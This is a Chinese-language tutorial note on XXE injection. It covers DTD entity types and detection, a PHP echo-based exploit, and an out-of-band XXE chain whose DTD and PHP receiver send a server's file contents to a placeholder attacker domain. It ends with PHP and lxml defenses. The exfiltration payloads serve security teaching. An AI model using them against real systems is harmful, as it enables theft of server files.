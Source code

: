 # XXE
*  [Entity](#entity)   
*  [Exploit](#exploit)   
*  [Defense](#defense)  
*  [Reference](#reference)   
   
XML是一種描述資料的語言，跟html很像，但著重於傳輸資料，Case-sensitive。  
```xml
<?xml version=“1.0” encoding=“utf-8”>    // xml的文檔聲明
<!DOCTYPE a[                    // DTD 文檔類型定義
    <!ENTITY .....>
]>
<a>     // 文檔元素
....
</a>
```
其中DTD的觀念以及利用尤為重要  

## Entity
在DTD中事先宣告才可以使用實體  
Entity就像定義變數一樣  
1. 內部實體： ```<!ENTITY name "value">```  
```xml
<!DOCTYPE pwnch[
  <!ENTITY var "hi">
]>
<root>&var;</root>
```
2. 外部實體： ```<!ENTITY name SYSTEM "URL">```  
```xml
<!ENTITY var SYSTEM "url://.......txt">
<root>&var;</root>
```
新版本預設不解析外部實體  

3. 參數實體： ```<!ENTITY %name "value>"```  
```xml
// exp.dtd: <!ENTITY next SYSTEM "file://.txt">
<!DOCTYPE pwnch[
  <!ENTITY %var SYSTEM "http://...../exp.dtd">
  %var;
]>
<root>&next;</root>
```
引入外部實體時將```exp.dtd```裡的參數給帶了進來  
> 順道提一下，```file:///``` 前兩條是protocol，最後一條是指根目錄

## Exploit
1. 檢測是否有XXE漏洞  
隨便輸入個xml判斷有沒有解析  
2. 有沒有支持DTD引用外部實體
```
<!DOCTYPE ANY [
<!ENTITY % name SYSTEM "url">
%name;
]>
```  
  
3. 有回顯 -> 簡單  
**php 與 XXE**  
```php
$xml = @new SimpleXMLElement($data);
echo $xml->node;
```
```SimpleXMLElement```會讓內容變成list的形式： ```[節點] => '內容'```  
最後一行的```$xml->node```則是取出名為**node**的節點  
因此exploit就會長成 ```<node>&var;</node>``` 這副德性  

4. 沒有回顯 -> 交給 OOB XXE  
那就讓server端主動傳資料給我們吧  
```xml
// 給server端吃的XML
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "你想要的東西">
<!ENTITY % remote SYSTEM "http://domain/xxe.dtd">
%remote;
%all;
%send;
]>
```
xxe.dtd  
```xml
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://domain/test.php?a=%file;'>">
```
test.php的內容  
```php
file_put_contents("test.txt",$_GET['a']);
```
整個流程：server端吃到我給的xml後，解析remote時會將我server上的dtd給引入。  
```xxe.dtd```上有all和send的參數實體，send在被解析時，就會對我server上的test.php發出請求。  
```test.php```會把我想要的資源放入```test.txt```的檔案。剩下的自己看著辦！  

## Defense
```php
// php 
libxml_disable_entity_loader(true);
// python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
以上的方式都可以禁止用戶引用外部實體，或者過濾使用者輸入的關鍵字  
[更詳細的內容可以參考這篇的漏洞修復與防禦](https://thief.one/2017/06/20/1/)

## Reference
* Kaibro's slides  
* [浅谈XXE漏洞攻击与防御](https://thief.one/2017/06/20/1/)
